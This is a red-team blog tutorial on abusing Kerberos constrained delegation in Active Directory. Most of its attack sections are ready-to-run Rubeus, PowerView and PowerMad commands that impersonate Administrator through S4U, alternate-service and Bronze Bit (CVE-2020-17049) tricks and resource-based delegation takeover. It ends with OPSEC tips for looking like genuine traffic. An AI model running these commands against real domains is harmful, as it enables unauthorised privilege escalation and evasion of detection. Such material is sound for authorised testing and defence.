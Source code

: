 ```yaml
---
title: 4 Ways to Abuse Constrained Delegation
date: 2022-03-15 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Various Attacks For Constrained Delegation Abuse
---
```


# Constrained Delegation

-------------------------------------------------------

Table of Contents:
- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#basic-constrained-delegation-exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)

-------------------------------------------------------

**Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

![](Constrained1.png)

To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM/AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).

Enumerate users/computers with constrained Delegation
- In Bloodhound: 
	- Users:
	```
	MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	```
	- Computers: 
	```
	MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	````
- Using Powerview:
	- Users: 
	```
	Get-DomainUser –TrustedToAuth
	```
	- Computers:
	```
	Get-DomainComputer –TrustedToAuth
	```
- Using ADModule enumerate both for computers and users: 
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

- To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  

	- We can extract it from a machine (Rubeus `dump`):
	```
	.\Rubeus.exe dump /service:svc_name /luid:0xluid /nowrap
	```
	- Use the `tgtdeleg` trick:
	```
	.\Rubeus.exe tgtdeleg
	```
	- Request one using the NTLM/AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt)`: 
	```
	.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /aes256:2892......1211414
	```


------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt
```

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt
```

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
- `Patched Error Message` : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt
```
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt
```

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have **WRITE** privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: 
```
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)
```
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target:
```
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)
```
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: 
```
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target:
```
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources
-  https://courses.zeropointsecurity.co.uk/courses/red-team-ops
-  https://www.pentesteracademy.com/activedirectorylab
-  https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
-  https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference







